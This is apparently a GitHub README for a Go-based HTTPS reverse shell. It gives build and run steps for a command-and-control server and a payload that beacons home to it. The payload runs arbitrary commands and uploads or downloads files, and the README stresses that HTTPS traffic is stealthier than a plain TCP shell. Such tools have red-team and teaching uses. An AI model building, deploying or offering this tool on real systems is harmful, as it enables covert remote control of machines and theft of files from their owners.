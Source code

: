 # https-reverse-shell-golang

A HTTPS reverse shell implemented in the Go programming language. 

## Prerequisites

* You need to have ```Golang``` installed on your system and have the variables ```$GOPATH``` and ```$GOBIN``` set.
* Install ```go-bindata``` via ```$ go get -u github.com/go-bindata/go-bindata/...``` 
(and install to bin via ```$ go install```)
* Install ```openssl``` in order to generate your cert/key pair.

## Build

In order to build, you need to create a server cert/key pair like this:

```
$ openssl genrsa -out server.key 2048
$ openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```


Put the ```server.cert``` and  ```server.key```  into the corresponding resource directories:

```
c2  
└─resources
│    server.crt
│    server.key
payload
└─resources
│    server.crt

```

Now you need to generate the resource file and build the binary:

```
$ cd c2 && go generate && go build
$ cd payload && go generate && go build
```

Eventually, you can run the binaries:

```
$ ./c2
[+] Server listening on (:4433)
```

```
$ ./payload
[+] Calling home to c2 to get cmd...
```

## Functionality

* Arbitrary command execute
* File upload
* File download

## Details

The payload calls home to the c2 server in an endless loop until it receives the "quit" command. The c2 requests a command from the user upon beacon from the payload. You can send any CLI arguments and upload/download arguments in the form of:

```CMD > upload <localFilePath>```

```CMD > download <remoteFilePath> <localFilePath>```

The c2 server implements the following endpoints:
* ```/getcmd``` - Asks the user for a command to send to the payload
* ```/cmdouput``` - Retrieves the output for the command executed on target machine through payload
* ```/upload``` - Handles upload requests
* ```/download``` - Handles download requests

The communication is encrypted via TLS. The general benefit of a HTTP/S reverse shell over a regular TCP reverse shell is that the traffic looks more legit and thus is stealthier.


